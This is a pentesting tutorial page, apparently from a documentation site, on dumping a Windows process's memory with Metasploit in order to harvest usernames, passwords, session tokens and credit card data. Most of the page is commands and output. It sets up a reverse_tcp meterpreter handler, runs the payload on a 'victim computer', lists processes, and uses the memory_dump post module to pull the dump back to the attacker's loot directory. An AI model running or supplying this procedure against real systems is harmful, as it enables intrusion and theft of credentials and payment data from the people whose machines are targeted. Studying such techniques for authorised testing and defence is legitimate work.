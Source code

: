 ```yaml
---
title: Process Memory Dump
layout: default
parent: Metasploit
grand_parent: Pentesting
nav_order: 5
---
```



# Process Memory Dump

## Introduction

Metasploit contains a post exploitation module to dump the memory of a process. This is normally used to gather information such as usernames and passwords, session tokens, and credit card data.

## Step-by-Step Guide

### 1. Create the meterpreter binary
    
How-To: [Creating a Meterpreter Binary](../meterpreter_binary_creation/how-to.md)

### 2. Open Metasploit Console

```bash
msfconsole
```

### 2. Create and run a listener

```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST <IP>
msf6 exploit(multi/handler) > set LPORT <PORT>
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 172.28.99.163:9999
[*] Sending stage (175686 bytes) to 172.28.96.1
[*] Meterpreter session 1 opened (172.28.99.163:9999 -> 172.28.96.1:11322) at 2024-01-24 11:14:18 +1100
meterpreter > 
```

### 3. Execute your meterpreter binary on the victim computer


### 4. Check for target process to dump (e.g. AcroRd32.exe)

```bash
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System             x64   0
 236   4     smss.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 312   296   csrss.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 316   452   svchost.exe        x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 360   296   wininit.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 368   352   csrss.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 396   352   winlogon.exe       x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 452   360   services.exe       x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
 468   360   lsass.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
 476   360   lsm.exe            x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsm.exe
 564   452   svchost.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 648   452   svchost.exe        x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 720   452   svchost.exe        x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 792   452   svchost.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 820   452   svchost.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 996   452   svchost.exe        x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1036  452   spoolsv.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1064  452   svchost.exe        x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1212  1724  AcroRd32.exe       x86   1        WIN7-1\win7                   C:\Program Files (x86)\Adobe\Reader
                                                                             9.0\Reader\AcroRd32.exe
...
```

### 5. Use 'post/windows/gather/memory_dump' module to dump the process memory.

Command: *run post/windows/gather/memory_dump PID=\<Process PID\>*

```bash
meterpreter > run post/windows/gather/memory_dump PID=1212

[*] Running module against WIN7-1 (192.168.0.166)
[*] Dumping memory for AcroRd32.exe (pid: 1212) to C:\Users\win7\AppData\Local\Temp\bfleZlzWhtk
[*] Downloading minidump (8.50 MiB)
[+] Memory dump stored at /root/.msf4/loot/20240131125804_default_192.168.0.166_windows.process._803063.bin
[*] Deleting minidump from disk
```
The dump file is automatically saved and trasferred to */root/.msf4/loot/* directory.

## Video Demonstration

[<img src="https://img.youtube.com/vi/j62jKn1Q60k/hqdefault.jpg"
/>](https://www.youtube.com/embed/j62jKn1Q60k)

## Reference
https://www.infosecmatter.com/metasploit-module-library/?mm=post/windows/gather/memory_dump